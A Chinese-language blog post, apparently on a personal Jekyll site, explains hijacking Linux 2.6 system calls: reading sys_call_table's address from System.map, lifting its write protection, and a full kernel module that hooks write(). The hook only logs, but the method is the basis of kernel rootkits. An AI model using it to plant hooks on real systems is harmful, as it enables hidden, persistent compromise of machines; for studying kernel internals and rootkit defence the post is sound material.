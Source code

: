 ```yaml
---
layout: post
title: "syscall hijacking:kernel 2.6 systems"
description: ""
category: 技术研究
tags: [kernel]
---
```

{% include JB/setup %}

这篇文章会详细的介绍如何劫持系统调用.文章中讨论的重点是如何绕过内核的保护和cpu的"保护模式".

## 访问系统调用表 ##

内核版本2.4以前的rootkit在2.6及以上的内核里是无法运行的.这是因为2.6以后,"sys_call_table"无法导出了,也就没有办法直接访问到.而且"sys_call_table"所在的内存页具有写保护,下面这种方式也是没法访问的:


	extern void *sys_call_table[];
	...
	sys_call_table[__NR_syscall] = pointer

不过这个表终归是在内存里,只要我们知道了它的内存地址,就可以通过一个简单的指针直接访问.有很多种办法可以获取到这个地址,最简单的就是查找"/boot"目录下的"System.map"文件了.这个文件是内核编译的时候创建的,它包含了内核使用的所有代号和想对应的地址.

这个文件的内容大致如下:

	spaccio@spaccio-laptop:~$ cat /boot/System.map-2.6.35-23-generic
	...
	c018d140 t cgroup_remount
	c018d260 T cgroup_path
	c018d310 t allocate_cg_links
	c018d410 t find_css_set
	c018d7d0 T cgroup_attach_task
	c018da40 T cgroup_clone
	c018dcc0 t cgroup_tasks_write
	c018dd90 t cgroup_release_agent
	c018df50 t proc_cgroup_show
	c018e180 t cgroup_pidlist_find
	c018e320 t cgroup_write_event_control
	c018e610 t pidlist_allocate
	c018e640 t pidlist_array_load
	...


内容很多,不过我们只对"sys_call_table"的内容感兴趣:

	spaccio@spaccio-laptop:~$ cat /boot/System.map-2.6.35-23-generic | grep sys_call_table
	c05d2180 R sys_call_table

## 绕过内核的写保护 ##

现在我们得到了系统调用表的地址,不过如果大家细心的话会发现"grep"命令的输出中有一个"R"的标志,它代表了这个地址是"只读的".

事实上内核在这个只读的区域内存储了一些结构,这样子就可以防止这些结构被修改而导致系统的不稳定.所以我们想要修改这些结构的话首先要把它设置成"读写"模式.

幸运的是内核已经给我们提供了一个特殊的函数来完成这个任务:

	void (*pages_rw)(struct page *page, int numpages) =  (void *) 0xc012fbb0;
	void (*pages_ro)(struct page *page, int numpages) =  (void *) 0xc012fe80;

"pages\_rw"函数设置页面为写模式, "page\_ro"设置页面为读模式.但是这两个函数的参数为页面的虚拟地址.我们可以使用"virt\_to\_page()"这个函数.这个函数可以把内核访问的页面物理地址转换为页面的虚拟地址.为了使用这两个函数,我们首先也需要知道他们的地址.可以从"System.map"文件读取:


	spaccio@spaccio-laptop:~$ cat /boot/System.map-2.6.35-23-generic | grep -e pages_rw -e pages_ro
	c012fbb0 T set_pages_rw
	c012fe80 T set_pages_ro

现在我们就可以通过这种方式来修改"sys_call_table"了

	...
	 
	unsigned long *syscall_table = (unsigned long *)0xc05d2180; 
	 
	...
	 
	void (*pages_rw)(struct page *page, int numpages) =  (void *) 0xc012fbb0;
	void (*pages_ro)(struct page *page, int numpages) =  (void *) 0xc012fe80;
	 
	...
	 
	static int init(void)
	{
	 
	    struct page *_sys_call_page;
	    printk(KERN_ALERT "\nHIJACK INIT\n");
	 
	    _sys_call_page = virt_to_page(&syscall_table);
	 
	    pages_rw(_sys_call_page, 1);
	     
	    // now we can use the sys_call_table
	     
	    ...
	}   


下面是一个样例的代码.

	#include <linux/init.h>
	#include <linux/module.h>
	#include <linux/kernel.h> 
	#include <linux/errno.h> 
	#include <linux/types.h>
	#include <linux/unistd.h>
	#include <asm/cacheflush.h>  
	#include <asm/page.h>  
	#include <asm/current.h>
	#include <linux/sched.h>
	#include <linux/kallsyms.h>
	 
	unsigned long *syscall_table = (unsigned long *)0xc05d2180; 
	 
	void (*pages_rw)(struct page *page, int numpages) =  (void *) 0xc012fbb0;
	void (*pages_ro)(struct page *page, int numpages) =  (void *) 0xc012fe80;
	 
	asmlinkage int (*original_write)(unsigned int, const char __user *, size_t);
	 
	asmlinkage int new_write(unsigned int fd, const char __user *buf, size_t count) {
	 
	    // hijacked write
	 
	    printk(KERN_ALERT "WRITE HIJACKED");
	 
	    return (*original_write)(fd, buf, count);
	}
	 
	static int init(void) {
	 
	    struct page *sys_call_page_temp;
	 
	    printk(KERN_ALERT "\nHIJACK INIT\n");
	 
	    sys_call_page_temp = virt_to_page(&syscall_table);
	    pages_rw(sys_call_page_temp, 1);
	 
	    original_write = (void *)syscall_table[__NR_write];
	    syscall_table[__NR_write] = new_write;  
	 
	    return 0;
	}
	 
	static void exit(void) {
	 
	    struct page *sys_call_page_temp;
	    
	    sys_call_page_temp = virt_to_page(syscall_table);
	    syscall_table[__NR_write] = original_write;  
	    pages_ro(sys_call_page_temp, 1);
	     
	    printk(KERN_ALERT "MODULE EXIT\n");
	 
	    return;
	}
	 
	module_init(init);
	module_exit(exit);


